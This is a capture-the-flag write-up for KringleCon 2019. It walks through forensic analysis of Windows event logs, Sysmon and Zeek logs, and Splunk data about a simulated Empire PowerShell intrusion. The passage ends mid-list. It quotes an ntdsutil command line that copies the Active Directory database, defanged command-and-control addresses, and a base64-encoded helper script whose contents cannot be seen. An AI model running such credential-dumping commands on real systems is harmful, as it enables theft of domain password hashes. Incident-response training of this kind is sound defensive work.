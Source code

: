 = 2019 Kringlecon ctf writeup
Brandon Ingalls <brandon@tr4.dev>
v0.1.0, 2019-12-28
:toc:
:imagesdir: ./images

== Challenges

=== __ - Start of Kringlecon

Location: `Train Station`

Difficulty: `0/5`

image::99/00-Hello.png[My character next to santa]

* After signing in for the first time you find yourself at the `Train Station`
* Talk to `Santa`
* Get story
+
----
(Santa)
- Welcome to the North Pole and KringleCon 2!
- Last year, KringleCon hosted over 17,500 attendees and my castle got a little crowded.
- We moved the event to Elf University (Elf U for short), the North Pole’s largest venue.
- Please feel free to explore, watch talks, and enjoy the con!
----

=== 00 - Talk to Santa in the Quad

Location: `The Quad`

Difficulty: `0/5`

image::main/00/00-location.png[Me next to Santa]

.Objective
----
Enter the campus quad and talk to Santa.
----

==== Solution

. Click on `Santa` until they repeat

==== Chat

.Chat log
----
(Santa)
- This is a little embarrassing, but I need your help.
- Our KringleCon turtle dove mascots are missing!
- They probably just wandered off.
- Can you please help find them?
- To help you search for them and get acquainted with KringleCon, I’ve created some objectives for you. You can see them in your badge.
- Where's your badge? Oh! It's that big, circle emblem on your chest - give it a tap!
- We made them in two flavors - one for our new guests, and one for those who've attended both KringleCons.
- After you find the Turtle Doves and complete objectives 2-5, please come back and let me know.
- Not sure where to start? Try hopping around campus and talking to some elves.
- If you help my elves with some quicker problems, they'll probably remember clues for the objectives.
----

=== 01 - Find the Turtle Doves

Location: `Student Union`

Difficulty: `0/5`

image::main/01/00-location.png[Me next to the doves]

.Objective
----
Find the missing turtle doves.
----

==== Solution

. Click on the doves until they repeat

==== Chat

.Chat log
----
(Michael and Jane - Two Turtle Doves)
- Hoot Hooot?
----

=== 02 - Unredact Threatening Document

Location: `The Quad`

Difficulty: `1/5`

image::main/02/00-location.png[Me next to the redacted document]

.Objective
----
Someone sent a threatening letter to Elf University. What is the first word in ALL CAPS in the subject line of the letter? Please find the letter in the Quad.
----

==== Links

. https://mega.nz/#!N9gBVaSZ!FtcN0Sf22Nf7ma0OSWI0OOzs6xoH0UAE5CAcelpNQuU[LetterToElfUPersonnel.pdf]
** The redacted document
+
NOTE: SHA256 `2f7b3ba81f1718d29ee73e82b19eb0f7a85e5b7835aaac0155edd233619b3c5e`

==== Solution

. Open the PDF
+
image::main/02/01-document.png[Picture of redacted document]
+
. Select all text in the document
+
NOTE: Using `[Ctrl]` + `a`
+
image::main/02/02-selected.png[Picture of highlighted document]
+
. Copy the text
+
NOTE: Using `[Ctrl]` + `c`
+
. Paste the copied content into a text editor
+
NOTE: Using `[Ctrl]` + `v`
+
.Documents unredacted contents
----
Date: February 28, 2019

To the Administration, Faculty, and Staff of Elf University
17 Christmas Tree Lane
North Pole

From: A Concerned and Aggrieved Character

Subject: DEMAND: Spread Holiday Cheer to Other Holidays and Mythical Characters… OR
ELSE!


Attention All Elf University Personnel,

It remains a constant source of frustration that Elf University and the entire operation at the
North Pole focuses exclusively on Mr. S. Claus and his year-end holiday spree. We URGE
you to consider lending your considerable resources and expertise in providing merriment,
cheer, toys, candy, and much more to other holidays year-round, as well as to other mythical
characters.

For centuries, we have expressed our frustration at your lack of willingness to spread your
cheer beyond the inaptly-called “Holiday Season.” There are many other perfectly fine
holidays and mythical characters that need your direct support year-round.

If you do not accede to our demands, we will be forced to take matters into our own hands.
We do not make this threat lightly. You have less than six months to act demonstrably.

Sincerely,

--A Concerned and Aggrieved Character

Confidential
Confidential
----

NOTE: *Answer:* `DEMAND`

=== 03 - Windows Log Analysis: Evaluate Attack Outcome

Location: `Offline`

Difficulty: `1/5`

.Objective
----
We're seeing attacks against the Elf U domain! Using the event log data, identify the user account that the attacker compromised using a password spray attack. Bushy Evergreen is hanging out in the train station and may be able to help you out.
----

==== Links

. https://mega.nz/#!choxHC7K!C1r5Yp4ikeA_OnYswhEKuwLEqWgYxoLCAUTh-oMiiso[Security.evtx.zip]
** Archive containing a Windows event log export for `Security`
+
NOTE: SHA256 `7583da028561af31a25a9cecab2c0bb77967a646e4808773b0cc23e62b70c0dd`

==== Solution

. Setup working directory for this challenge
+
[source, bash, options="nowrap"]
----
# Create a temp directory
[~]$ cd "$(mktemp -d /tmp/ctf-03.XXX)"

# Extract the provided archive
[/tmp/ctf-03.rhb]$ unzip /path/to/Security.evtx.zip
Archive:  /path/to/Security.evtx.zip
  inflating: Security.evtx

# Create a python2 virtualenv
[/tmp/ctf-03.rhb]$ python2 -m virtualenv .venv

# Verify layout
[/tmp/ctf-03.rhb]$ ls -A1
Security.evtx
.venv
----
+
. Activate the python virtualenv
+
[source, bash, options="nowrap"]
----
[/tmp/ctf-03.rhb]$ source .venv/bin/activate
(.venv) [/tmp/ctf-03.rhb]$
----
+
. Install python tools
+
----
# Install tools via pip
(.venv) [/tmp/ctf-03.rhb]$ pip install \
                                       'python-evtx>=0.6.1' \
                                       'yq>=2.10.0'
----
+
. Convert `.evtx` to `.xml`
+
[source, bash, options="nowrap"]
----
# Convert evtx => xml
(.venv) [/tmp/ctf-03.rhb]$ time evtx_dump.py Security.evtx > Security.xml
evtx_dump.py Security.evtx > Security.xml  39.01s user 0.07s system 99% cpu 39.084 total

# Check sizes
(.venv) [/tmp/ctf-03.rhb]$ ls -Alh Security.evtx Security.xml
-rwxr-xr-x 1 t4r t4r 3.1M Nov 19 06:29 Security.evtx
-rw-r--r-- 1 t4r t4r 6.9M Dec 28 14:40 Security.xml
----
+
. Convert `.xml` to `.json`
+
[source, bash, options="nowrap"]
----
(.venv) [/tmp/ctf-03.rhb]$ time xq '.Events' Security.xml > Security.json
xq '.Events' Security.xml > Security.json  10.74s user 2.95s system 121% cpu 11.282 total
----
+
. Disable virtualenv
+
NOTE: We shouldn't need it anymore
+
[source, bash, options="nowrap"]
----
(.venv) [/tmp/ctf-03.rhb]$ deactivate
[/tmp/ctf-03.rhb]$
----
+
. Start pivoting with `jq`
.. Figure out when the attack started - Event ID 4625
+
[source, bash, options="nowrap"]
----
# Filter for failed logins
[/tmp/ctf-03.rhb]$ cat Security.json \
                     | jq '.Event[] | select(.System.EventID."#text"=="4625")' > Security-4625.json

# Store jq filter
[/tmp/ctf-03.rhb]$ read -r -d '' filter << 'EOF'
[
  {
    "time": .System.TimeCreated."@SystemTime",
    "user": .EventData.Data[] | select(."@Name"=="TargetUserName")."#text",
    "ip": .EventData.Data[] | select(."@Name"=="IpAddress")."#text"
  }
]
  | sort_by(.time)
    | .[]
EOF

# Parse into readable format
[/tmp/ctf-03.rhb]$ cat Security-4625.json \
                     | jq -c "${filter}" > failed_logins.jsonl
----
+
... Review `failed_logins.jsonl`
+
NOTE: Scan happened `2019-11-19 12:21` => `2019-11-19 12:22`
+
.. Event ID 4624 (An account was successfully logged on)
+
[source, bash, options="nowrap"]
----
# Filter for successful logins
[/tmp/ctf-03.rhb]$ cat Security.json \
                     | jq '.Event[] | select(.System.EventID."#text"=="4624")' > Security-4624.json
----
+
.Example 4624 event
image::main/03/00-4624.png[Example 4624 event]
+
.. Parse filtered `4624` events into a more readable format
+
[source, bash, options="nowrap"]
----
[/tmp/ctf-03.rhb]$ read -r -d '' filter << 'EOF'
[
  {
    "time": .System.TimeCreated."@SystemTime",
    "user": .EventData.Data[] | select(."@Name"=="TargetUserName")."#text",
    "ip": .EventData.Data[] | select(."@Name"=="IpAddress")."#text"
  }
]
  | sort_by(.time)
    | .[]
EOF

[/tmp/ctf-03.rhb]$ cat Security-4624.json \
                     | jq -c "${filter}" \
                       | tee logins.jsonl
{"time":"2019-08-24 00:00:20.189180","user":"pminstix","ip":"192.168.86.128"}
{"time":"2019-08-24 00:00:41.380116","user":"DC1$","ip":"fe80::75f6:7c88:9877:ce71"}
{"time":"2019-11-19 12:21:34.496546","user":"pminstix","ip":"192.168.86.128"}
{"time":"2019-11-19 12:21:41.375494","user":"DC1$","ip":"::1"}
{"time":"2019-11-19 12:21:45.755442","user":"supatree","ip":"127.0.0.1"}
{"time":"2019-11-19 12:21:46.715054","user":"DC1$","ip":"fe80::75f6:7c88:9877:ce71"}
{"time":"2019-11-19 12:21:46.724463","user":"DC1$","ip":"fe80::75f6:7c88:9877:ce71"}
{"time":"2019-11-19 12:22:25.172413","user":"DC1$","ip":"fe80::75f6:7c88:9877:ce71"}
{"time":"2019-11-19 12:22:25.175280","user":"DC1$","ip":"fe80::75f6:7c88:9877:ce71"}
{"time":"2019-11-19 12:22:25.180609","user":"DC1$","ip":"::1"}
{"time":"2019-11-19 12:22:25.184385","user":"DC1$","ip":"192.168.86.190"}
{"time":"2019-11-19 12:22:25.284060","user":"DC1$","ip":"fe80::75f6:7c88:9877:ce71"}
{"time":"2019-11-19 12:22:41.383135","user":"DC1$","ip":"::1"}
{"time":"2019-11-19 12:23:05.847099","user":"supatree","ip":"192.168.86.128"}
{"time":"2019-11-19 12:23:41.405107","user":"DC1$","ip":"::1"}
{"time":"2019-11-19 12:23:47.222954","user":"DC1$","ip":"fe80::75f6:7c88:9877:ce71"}
----
+
.. Filter out `Kerberos` events
+
[source, bash, options="nowrap"]
----
[/tmp/ctf-03.rhb]$ cat logins.jsonl | grep -vE 'DC1\$'
{"time":"2019-08-24 00:00:20.189180","user":"pminstix","ip":"192.168.86.128"}
{"time":"2019-11-19 12:21:34.496546","user":"pminstix","ip":"192.168.86.128"}
{"time":"2019-11-19 12:21:45.755442","user":"supatree","ip":"127.0.0.1"}
{"time":"2019-11-19 12:23:05.847099","user":"supatree","ip":"192.168.86.128"}
----
... Note the odd one out
+
----
{"time":"2019-11-19 12:21:45.755442","user":"supatree","ip":"127.0.0.1"}
----

NOTE: *Answer:* `supatree`

=== 04 - Windows Log Analysis: Determine Attacker Technique

Location: `Offline`

Difficulty: `2/5`

.Objective
----
Using these normalized Sysmon logs, identify the tool the attacker used to retrieve domain password hashes from the lsass.exe process. For hints on achieving this objective, please visit Hermey Hall and talk with SugarPlum Mary.
----

==== Links

* https://mega.nz/#!VwojHSaS!u7mcytO5T4rfpxLhMowJ3-fY4ROsDB4Tst-J6XbYoys[sysmon-data.json.zip]
** Archive containing Sysmon data formatted as json
+
NOTE: SHA256 `b54e4d573c100eb51328673f057e51b6292e2e071b421e94edf7d1fd02447d06`

==== Solution

. Create working directory
+
[source, bash, options="nowrap"]
----
# Create a temp directory
[~]$ cd "$(mktemp -d /tmp/ctf-04.XXX)"

# Unzip provided archive
[/tmp/ctf-04.9SY]$ unzip /path/to/sysmon-data.json.zip
Archive:  /path/to/sysmon-data.json.zip
  inflating: sysmon-data.json

# Verify size
[/tmp/ctf-04.9SY]$ ls -Alh sysmon-data.json
-rwx------ 1 t4r t4r 1.8M Dec  5 14:41 sysmon-data.json
----
+
. Figure out what type sysmon events we have
+
[source, bash, options="nowrap"]
----
[/tmp/ctf-04.9SY]$ cat sysmon-data.json | jq '[.[].event_type] | unique'
[
  "file",
  "network",
  "process",
  "registry"
]
----
+
NOTE: As the challenge is asking for what tool was run on the host I decided to start with `process` events (event_id: `1`)
+
. Filter out `event_type=process`
+
[source, bash, options="nowrap"]
----
# Filter process events into `sysmon-data-process.jsonl`
[/tmp/ctf-04.9SY]$ cat sysmon-data.json \
                     | jq -c '.[] | select(.event_type=="process")' > sysmon-data-process.jsonl

# Create an abbriged version of the process file
# - This is easier to skim through
[/tmp/ctf-04.9SY]$ cat sysmon-data-process.jsonl \
                     | jq -c '[{"timestamp", "user_name", "process_name", "command_line"}] | sort_by(.timestamp) | .[]' > process_short.jsonl

# Filter out boring commands with grep as you go
[/tmp/ctf-04.9SY]$ cat process_short.jsonl \
                     | grep -vE '(powershell|net|wevtutil|cmd)\.exe'
{"timestamp":132186398470300000,"user_name":"SYSTEM","process_name":"ntdsutil.exe","command_line":"ntdsutil.exe  \"ac i ntds\" ifm \"create full c:\\hive\" q q"}
----

NOTE: *Answer:* `ntdsutil`

[quote, 'https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc753343(v%3Dws.11)[Microsoft]']
Ntdsutil.exe is a command-line tool that provides management facilities for Active Directory Domain Services (AD DS) and Active Directory Lightweight Directory Services (AD LDS). You can use the ntdsutil commands to perform database maintenance of AD DS, manage and control single master operations, and remove metadata left behind by domain controllers that were removed from the network without being properly uninstalled. This tool is intended for use by experienced administrators.

=== 05 - Network Log Analysis: Determine Compromised System

Location: `Offline`

Difficulty: `2/5`

.Objective
----
The attacks don't stop! Can you help identify the IP address of the malware-infected system using these Zeek logs? For hints on achieving this objective, please visit the Laboratory and talk with Sparkle Redberry.
----

==== Links

* https://mega.nz/#!x0gVCSob!e6YHqJcdXYKVzdJDZOte2hpGZGN5uapE2UpBmFSGUQk[elfu-zeeklogs.zip]
** Archive of Zeek logs
+
NOTE: SHA256: `8b2d0d64c310d63efe9fc57e6945f9f8d4498501b39039cd161ee5a9485258af`

==== Solution

. Create working directory
+
[source, bash, options="nowrap"]
----
# Create a temp directory
[~]$ cd "$(mktemp -d /tmp/ctf-05.XXX)"

# Unzip provided archive
[/tmp/ctf-05.bl9]$ unzip /path/to/elfu-zeeklogs.zip
Archive:  /path/to/elfu-zeeklogs.zip
...
  inflating: elfu-zeeklogs/conn.log-00057_20190824000518.log
----
+
. Create tool to parse the `Zeek` logs into `jsonl`
+
NOTE: I made a quick python script to do this
+
NOTE: This will make it easier to use `jq` to filter the data
+
.Custom script
[source, bash, options="nowrap"]
----
# Extract log converter
[/tmp/ctf-05.bl9]$ base64 -d << 'EOF' | gzip --decompress > convert-log.py
H4sICHP2B14CA2NvbnZlcnQtbG9nLnB5AH1VPVPjMBDt/SuEUsSeAQNXZibFFRTXcBRU58t4RLxJ
dNiSR5JDgOG/366k+CMBXGRs6e3b75fZBbvurLl+kuoa1J61r26n1Y8kkU2rjWPCbFthLBy//1mt
ju/aJklSwYZ5RIlQm2aLhOHjTwxb9vb5T7PtGlDuwd+k2QiWi6oia3+f8lpv+SXbQd0u+YNwO+Y0
+wPwzOgi2JGr0ogXdBApxiF4iAHXGcX2eJ4e4dkkXqQrN7KGFF9i2A04gZzvH/7LAgKF05THvVbg
DzcS6sqOTyrhROleWzge+tNaKoghIn9uQFR0FKOjV7qJoNw6I9t4N2P3vx/vFuxxB+jNWBfQdqe7
umI7sQfm8Gov6g5YZ6FiwjIxRBtJwrPB6AltAHn0xr9jPB4jN4zPejPOlHZMKu8tlMPXUUgL7O6w
htZJrdL+gh4+fyf0x5y9YAxkT/xD3UKMvxgcWlg7qC54jgE1wqVktqSfrCfMpkUvbVtLF4uU+4+U
M36KArsWLdZgeWpZXN2uztp4ZpdXsNYVpLxTkl6uwnl0Q/NQ8KFEq88oQr+p0H3PqYp6OxTxq3b3
gBnze+HLR05ppph40p2bdCx2jXiKGwxmiQ3ki0lLPqvaX8dHvoI/A42OkzSfzVlrYCMPEwzFUT7D
a5ziUNSb1acYvB/Di9vFKjkDFkfIqqcj3Bi21spJ1UEyTpfmKqzdNNV+FYk33wJmGo5QPopVdkrR
7+mUZby+A1GLwhNoKOXkm+r28zA49N1DGTmg7YIdituVH48DzcUbNj5EeRnYso+JXcHfUOt8QH7c
+vCGIFojUSdJifOqa1qbEiYby17UuUZI5cUvyhspHiUWdNmGTAdVjXXSNidQLu1RHb1R9rUmoAwQ
AmWg0hB0AA7SumHd6XrZM8VhfJEYim5B9T4uGTdPPCNBm+zPuWAT2UnGGH5ZKtFAWfrNKEvKvyzj
glDGx/+L8R9FX6Slr1TyH0d4njISBwAA
EOF
----
+
. Start pivoting with Zeek conn events
+
[source, bash, options="nowrap"]
----
# Create `zeek.jsonl`
[/tmp/ctf-05.bl9]$ find ./elfu-zeeklogs/ \
                          -iname 'conn*.log' \
                          -type f \
                          -exec python ./convert-log.py {} ';' > zeek-conn.jsonl

# Check sizes
[/tmp/ctf-05.bl9]$ ls -lh zeek-conn.jsonl
-rw-r--r-- 1 t4r t4r 770M Dec 28 18:57 zeek-conn.jsonl

# Look for long-lived connections
[/tmp/ctf-05.bl9]$ cat zeek-conn.jsonl \
                     | jq -s -c '[.[] | select(.duration!="-")] | . | sort_by(.duration|tonumber) | reverse | .[]' \
                       | head \
                         | tee top-conn.txt

# Make it eaiser to read
[/tmp/ctf-05.bl9]$ cat top-conn.txt \
                     | jq -c '{"proto", "id.orig_h", "id.resp_h", "id.resp_p", "uid"}'
{"proto":"udp","id.orig_h":"10.142.148.1","id.resp_h":"255.255.255.255","id.resp_p":"17500","uid":"CFp61A2tCWNnVBMvZ8"}
{"proto":"udp","id.orig_h":"10.142.148.1","id.resp_h":"10.142.151.255","id.resp_p":"17500","uid":"CPEjh03sHL2fw2KVr9"}
{"proto":"tcp","id.orig_h":"192.168.134.130","id.resp_h":"148.69.64[.]76","id.resp_p":"443","uid":"C9mIoHHpnSvcvBUme"}
{"proto":"tcp","id.orig_h":"192.168.134.130","id.resp_h":"148.69.64[.]76","id.resp_p":"443","uid":"Cpsfbu2RiDZx0c8kn7"}
{"proto":"udp","id.orig_h":"10.142.148.1","id.resp_h":"255.255.255.255","id.resp_p":"17500","uid":"CHgaNmEHxh4EU0oQj"}
{"proto":"udp","id.orig_h":"10.142.148.1","id.resp_h":"10.142.151.255","id.resp_p":"17500","uid":"C0SkC82J7wY3N1WG5l"}
{"proto":"udp","id.orig_h":"10.142.148.1","id.resp_h":"255.255.255.255","id.resp_p":"17500","uid":"Cz6Yt11qPAC75MXHt4"}
{"proto":"udp","id.orig_h":"10.142.148.1","id.resp_h":"10.142.151.255","id.resp_p":"17500","uid":"CbtldJSgT161hzY53"}
{"proto":"tcp","id.orig_h":"192.168.134.130","id.resp_h":"148.69.64[.]76","id.resp_p":"443","uid":"C0ZpeF4800AaS7daZe"}
{"proto":"udp","id.orig_h":"10.142.148.1","id.resp_h":"255.255.255.255","id.resp_p":"17500","uid":"CW9Hxc1ETzjzpoCT8c"}
----
+
NOTE: `192.168.134.130` => `148.69.64[.]76:443/tcp` seems pretty *sketch*.

NOTE: *Answer:* `192.168.134.130`

==== Chat

.Chat log
----
(Santa)
- Thank you for finding Jane and Michael, our two turtle doves!
- I’ve got an uneasy feeling about how they disappeared.
- Turtle doves wouldn’t wander off like that.
- Someone must have stolen them! Please help us find the thief!
- It’s a moral imperative!
- I think you should look for an entrance to the steam tunnels and solve Challenge 6 and 7 too!
- Gosh, I can’t help but think:
- Winds in the East, snow coming in…
- Like something is brewing and about to begin!
- Can’t put my finger on what lies in store,
- But I fear what’s to happen all happened before!
----

=== 06 - Splunk

Location: `https://splunk.elfu.org/`

Difficulty: `3/5`

image::main/06/00-location.png[Challenge screen]

.Objective
----
Access https://splunk.elfu.org/ as elf with password elfsocks. What was the message for Kent that the adversary embedded in this attack? The SOC folks at that link will help you along! For hints on achieving this objective, please visit the Laboratory in Hermey Hall and talk with Prof. Banas.
----

==== Solution

===== Part A

We need to complete the Training questions to get important bits of information before we can complete the challenge question.

. What is the short host name of Professor Banas' computer?
** We can find this inside of the `SOC chat`
+
image::main/06/01-hostname.png[Picture showing hostname of sweetums]
+
NOTE: *Answer:* `sweetums`
+
. What is the name of the sensitive file that was likely accessed and copied by the attacker? Please provide the fully qualified location of the file. (Example: C:\temp\report.pdf)
** After solving question one, the chat app updates with more information
+
image::main/06/02-hint.png[Hint that gives you a starting search]
+
** The link takes you to the following Splunk search
+
----
index=main cbanas
----
+
** As the question was asking for information on information accessed by the attacker I used a basic search...
+
----
    index=main
AND cbanas
AND Users
----
+
image::main/06/03-answer.png[Answer for q02]
+
NOTE: *Answer:* `C:\Users\cbanas\Documents\Naughty_and_Nice_2019_draft.txt`
+
. What is the fully-qualified domain name(FQDN) of the command and control(C2) server? (Example: badguy.baddies[.]com)
** It looked like Empire was being used on the Windows host
** I did a search for Sysmon Event ID *3* made by `powershell.exe`
+
----
    index=main
AND EventID=3
AND Computer="sweetums*"
AND process_name="powershell.exe"
----
+
image::main/06/04-search.png[Search results]
+
NOTE: *Answer:* `144.202.46[.]214.vultr[.]com`
+
. What document is involved with launching the malicious PowerShell code? Please provide just the filename. (Example: results.txt)
** Did a basic search for Sysmon event id `1`
+
----
    index=main
AND EventID=1
AND Computer="sweetums*"
----
+
image::main/06/05-table.png[Search results]
+
** I see see Powershell running an Empire payload at `05:18 PM`
** https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true)Decode_text('UTF-16LE%20(1200)')Generic_Code_Beautify()[CyberChef Recipe]
+
image::main/06/06-payload.png[Empire payload decoded]
+
NOTE: The parent process of the malicious `powershell.exe` is `WmiPrvSE.exe`, so it was started via a script, going to guess it was from an office product macro.
+
** Struck out with this search
+
----
    index=main
AND EventCode=1
AND NOT docx
----
+
image::main/06/07-no-results.png[No bad results]
+
** Noticed this message in chat
+
image::main/06/08-chat.png[Chat message]
+
** Tried new search (Limited to around the time Empire payload was executed)
+
----
    index=main
AND EventCode=4688
AND NOT docx

| sort _time
----
+
image::main/06/09-found-bad.png[Table with bad doc]
+
NOTE: *Answer:* `19th Century Holiday Cheer Assignment.docm`
+
. How many unique email addresses were used to send Holiday Cheer essays to Professor Banas? Please provide the numeric value. (Example: 1)
** Read the chat
+
image::main/06/10-chat.png[Chat message]
+
** Need to look for emails with the subject of *Holiday Cheer Assignment Submission*
+
.Query
----
    index=main
AND sourcetype=stoq
AND results{}.workers.smtp.subject="Holiday Cheer Assignment Submission"

| eval email_from = mvindex(lower('results{}.workers.smtp.from'), 0)
  | stats dc(email_from)
----
+
NOTE: *Answer:* `21`
+
. What was the password for the zip archive that contained the suspicious file?
** Starting with this search
+
----
    index=main
AND sourcetype=stoq
AND results{}.workers.smtp.subject="Holiday Cheer Assignment Submission"
AND docm
----
+
image::main/06/11-results.png[Search results]
+
NOTE: *Answer:* `123456789`
+
. What email address did the suspicious file come from?
** Using my table from the previous question I was able to pull the email address for this question
+
NOTE: *Answer:* `bradly.buttercups@eifu[.]org`

==== Part B

NOTE: This is the official challenge solution, we needed the information from the training questions to get the data for this question.

. Find artifact meta information
+
image::main/06/12-artifacts.png[Email artifacts]
+
. Convert artifact links to download urls
+
NOTE: We are provided with a http://elfu-soc.s3-website-us-east-1.amazonaws.com/[link] to the SOCs case artifacts
+
[source, bash, options="nowrap"]
----
# Create work dir
[~]$ cd "$(mktemp -d /tmp/ctf-06.XXX)"

# Convert to bucket urls
[/tmp/ctf-06.I4z]$ sed -re 's,^,http://elfu-soc.s3-website-us-east-1.amazonaws.com/stoQ%20Artifacts,' << 'EOF' | tee urls.txt
/home/ubuntu/archive/7/f/6/3/a/7f63ace9873ce7326199e464adfdaad76a4c4e16
/home/ubuntu/archive/9/b/b/3/d/9bb3d1b233ee039315fd36527e0b565e7d4b778f
/home/ubuntu/archive/c/6/e/1/7/c6e175f5b8048c771b3a3fac5f3295d2032524af
/home/ubuntu/archive/b/e/7/b/9/be7b9b92a7acd38d39e86f56e89ef189f9d8ac2d
/home/ubuntu/archive/1/e/a/4/4/1ea44e753bd217e0edae781e8b5b5c39577c582f
/home/ubuntu/archive/e/e/b/4/0/eeb40799bae524d10d8df2d65e5174980c7a9a91
/home/ubuntu/archive/1/8/f/3/3/18f3376a0ce18b348c6d0a4ba9ec35cde2cab300
/home/ubuntu/archive/f/2/a/8/0/f2a801de2e254e15840460f4a53e568f6622c48b
/home/ubuntu/archive/1/0/7/4/0/1074061aa9d9649d294494bb0ae40217b9c7a2d9
/home/ubuntu/archive/8/6/c/4/d/86c4d8a2f37c6b4709273561700640a6566491b1
/home/ubuntu/archive/a/2/b/b/1/a2bb14afe8161ee9bd4a6ea10ef5a9281e42cd09
/home/ubuntu/archive/4/0/d/c/1/40dc1e00e2663cb33f8c296cdb0cd52fa07a87b6
/home/ubuntu/archive/f/5/c/b/a/f5cba8a650d6ada98d170f1b22098d93b8ff8879
/home/ubuntu/archive/0/2/b/6/7/02b67cad55d2684115a7de04d0458a3af46b12c6
/home/ubuntu/archive/1/7/6/1/2/1761214092f5c0e375ab3bc58a8687134b7f2582
/home/ubuntu/archive/b/7/7/0/f/b770f3a79423882bdae4240e995c0885770022ef
/home/ubuntu/archive/9/d/7/a/b/9d7abf0ee4effcecad80c8bbfb276079a05b4342
/home/ubuntu/archive/e/9/2/1/1/e9211c706be234c20d3c02123d85fea50ae638fd
/home/ubuntu/archive/f/f/1/e/a/ff1ea6f13be3faabd0da728f514deb7fe3577cc4
/home/ubuntu/archive/7/f/6/3/a/7f63ace9873ce7326199e464adfdaad76a4c4e16
/home/ubuntu/archive/9/b/b/3/d/9bb3d1b233ee039315fd36527e0b565e7d4b778f
